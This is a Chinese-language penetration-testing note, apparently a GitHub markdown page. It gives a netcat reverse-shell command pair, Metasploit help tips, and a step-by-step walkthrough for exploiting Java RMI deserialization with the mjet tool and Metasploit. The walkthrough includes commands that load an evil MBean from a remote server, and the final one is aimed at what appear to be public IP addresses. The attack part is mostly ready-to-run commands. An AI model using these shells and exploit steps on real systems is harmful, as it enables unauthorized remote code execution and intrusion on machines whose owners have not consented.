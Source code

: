 # 被控端
nc -nv 192.168.30.35 4444 -e /bin/bash


# 攻击端
nc -lvp 4444



## 关于msf中help的功能 有三种方式

```
分别是 “?” 、“help”、“-h”。 

比如：

？ kill  /  kill -h  /help  kill            \\你需要手动打全命令。别老想着tab了

```
msf平台还具备一个极其方便的功能，

支持外部命令执行，也就是系统命令。

你不需要为了查看某项系统信息去单独打开一个窗口了。

## 补充实战

### 关于metaspolit中进行JAVA反序列化渗透RMI的原理分析

在 Github 上有一个关于本漏洞的` exp`，叫做 mjet，我们可以利用它来配合 metasploit 进行攻击。

1. 下载mjet模块
```
git clone https://github.com/mogwaisec/mjet.git
```
2. 拷贝文件到响应目录下：
```
cp -r mjet/metasploit/MBean metasploit-framework-master/data/java/metaspolit
cp mjet/metasploit/java_mlet_server.rb metasploit-framework-master/modules/exploits/multi/misc/
cd mjet/src/java/metasploit/MetasploitBean/src/metasploit
javac Payload.java
cp Payload.class ~/Desktop/metasploit-framework-master/data/java/metasploit/
```
3)在另外一个java虚拟机中开启一个终端

```
java -jar mjet.jar -p 1099 -u http://192.168.100.101:8080/o5jSTI5rEWJw6Is/ -t 192.168.100.102
```
```
tips
查看配置选项show options
需要修改那个修改那个就可以了
set uripath /asdfgh
set SRVPORT 1234
等等
```
> 接着输入 run 跑起来。这时候会显示一个 listen 的 URL，这里的 URL 就是我们的 Evil MBean 的地址。复制这个地址作为 mjet 的参数，运行：
```
java -jar mjet.jar -p 1099 -u http://103.238.227.183:8080/o5jSTI5rEWJw6Is/ -t 42.96.150.237/
```
